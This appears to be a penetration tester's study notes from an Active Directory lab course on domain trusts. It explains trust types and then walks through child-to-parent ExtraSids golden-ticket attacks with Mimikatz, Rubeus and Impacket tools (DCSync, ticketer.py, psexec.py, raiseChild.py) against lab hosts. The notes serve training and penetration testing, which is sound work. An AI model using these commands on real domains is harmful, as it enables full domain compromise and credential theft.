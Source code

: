 
Context:
Many large organizations will acquire new companies over time and bring them into the fold. One way this is done for ease of use is to establish a trust relationship with the new domain. In doing so, you can avoid migrating all the established objects, making integration much quicker. This trust can also introduce weaknesses into the customer's environment if they are not careful. A subdomain with an exploitable flaw or vulnerability can provide us with a quick route into the target domain. Companies may also establish trusts with other companies (such as an MSP), a customer, or other business units of the same company (such as a division of the company in another geographical region).

What Are Domain Trusts?
A trust is used to establish forest-forest or domain-domain (intra-domain) authentication, which allows users to access resources in (or perform administrative tasks) another domain, outside of the main domain where their account resides. A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication.

Types of Trust:
	• Parent-child: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain corp.inlanefreight.local could authenticate into the parent domain inlanefreight.local, and vice-versa.
	ㅤ
	• Cross-link: A trust between child domains to speed up authentication.
	ㅤ
	• External: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes SID filtering or filters out authentication requests (by SID) not from the trusted domain.
	ㅤ
	• Tree-root: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.
	ㅤ
	• Forest: A transitive trust between two forest root domains.
	ㅤ
	• ESAE: A bastion forest used to manage Active Directory. 

Transitive v non-transitive:
	• A transitive trust means that trust is extended to objects that the child domain trusts. For example, let's say we have three domains. In a transitive relationship, if Domain A has a trust with Domain B, and Domain B has a transitive trust with Domain C, then Domain A will automatically trust Domain C.
	ㅤ
	• In a non-transitive trust, the child domain itself is the only one trusted.

![[Pasted image 20230104194405.png]]

Enumerating Trust Relationships w/ Powershell
```
PS C:\htb> Import-Module activedirectory
PS C:\htb> Get-ADTrust -Filter *
```

Enumerating Trust Relationships w/ PowerView
```
PS C:\htb> Get-DomainTrustMapping
```

Checking Users in Child Domain using Get-DomainUser
```
PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

Enumerating Trusts with Bloodhound:
![[Pasted image 20230104194527.png]]


## Attacking Domain Trusts - [Child -> Parent Trusts] from Windows

SID History Primer
The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.



ExtraSids Attack - Mimikatz
This attack allows for the compromise of a parent domain once the child domain has been compromised.

Requirements after compromising child domain:
	• The KRBTGT hash for the child domain
	• The SID for the child domain
	• The name of a target user in the child domain (does not need to exist!)
	• The FQDN of the child domain.
	• The SID of the Enterprise Admins group of the root domain.
	• With this data collected, the attack can be performed with Mimikatz.

Steps:

1. Obtain the KRBTGT Account's NT Hash with Mimikatz
![[Pasted image 20230104194734.png]]

2. Use Get-DomainSID via PowerView to get the SID
![[Pasted image 20230104194755.png]]

3. Obtain Enterprise Admin Group's SID using Get-DomainGroup
```
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

4. Using ls to Confirm No Access (Before Attack)
![[Pasted image 20230104194833.png]]

5. Using the data above, create a golden ticket with Mimikatz
```
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

6. Confirm the ticket is in memory using klist
![[Pasted image 20230104194924.png]]

7. List the Entire C: Drive of the Domain Controller
![[Pasted image 20230104194954.png]]



ExtraSids Attack - Rubeus
We will formulate our Rubeus command using the data we retrieved above. The /rc4 flag is the NT hash for the KRBTGT account. The /sids flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.

1. Create the golden ticket with Rubeus
```
PS C:\htb> .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f
/domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

2. Confirm the ticket is in memory with klist
![[Pasted image 20230104195113.png]]

3. Perform a DCSync Attack against the Domain Admin user (lab_adm)
![[Pasted image 20230104195132.png]]


## Attacking Domain Trust - [Child -> Parent] Trusts from Linux

Need to gather the following information:
	• The KRBTGT hash for the child domain
	• The SID for the child domain
	• The name of a target user in the child domain (does not need to exist!)
	• The FQDN of the child domain
	• The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, LOGISTICS.INLANEFREIGHT.LOCAL, we can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.

Steps:
1. Perform DCSync with secretsdump.py 
```
TeneBrae93@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just- dc-user LOGISTICS/krbtgt
```

2. Perform SID Brute Forcing using lookupsid.py
```
TeneBrae93@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-
student_adm@172.16.5.240 | grep "Domain SID"
```

3. Grab the Domain SID & Attaching to Enterprise Admin's RID
```
TeneBrae93@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

4. Construct a Golden Ticket using ticketer.py
```
TeneBrae93@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain
LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
- The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.

5. Set the KRB5CCNAME Environmental Variable
```
TeneBrae93@htb[/htb]$ export
KRB5CCNAME=hacker.ccache
```

6. Get a SYSTEM Shell Using Impacket's psexec.py
```
TeneBrae93@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```



Automating the Attack with raiseChild.py
```
TeneBrae93@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5
LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
- Though tools such as raiseChild.py can be handy and save us time, it is essential to understand the process and be able to perform the more manual version by gathering all of the required data points. In this case, if the tool fails, we are more likely to understand why and be able to troubleshoot what is missing, which we would not be able to if blindly running this tool.
